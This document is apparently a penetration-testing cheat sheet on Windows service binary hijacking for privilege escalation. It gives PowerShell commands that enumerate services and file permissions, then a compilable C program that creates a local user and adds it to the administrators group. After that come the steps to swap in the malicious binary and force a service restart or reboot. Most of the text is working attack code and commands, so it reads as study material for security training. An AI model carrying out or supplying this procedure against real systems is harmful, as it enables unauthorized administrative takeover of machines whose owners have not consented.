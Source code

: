 # SERVICE BINARY HIJACKING
#query_services
```powershell
services.msc
Get-Service
Get-CimInstance

Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

#enum_permissions
```powershell
icacls
Get-ACL

icacls mask / perms
F - Full 
M - Modify 
RX - Read + Execute
R - Read Only
W - Write Only

icacls [some file]
```

#malicious_binary
```powershell
#compile: x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
#IF NON ADMIN USER MAY NOT HAVE PRIVS FOR THIS TRY REVSHELL

#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user [username] [password] /add");
  i = system ("net localgroup administrators [username] /add");
  
  return 0;
}
```

#exploit 
```powershell
#replace binary with malicious binary
#restart service or reboot computer if autopmatic start

net stop / net start 
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

#need SeShutDownPrivilege
whoami /priv
#The tokens that appear as Disabled can be enable, you you actually can abuse _Enabled_ and _Disabled_ tokens

shutdown /r /t 0
```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens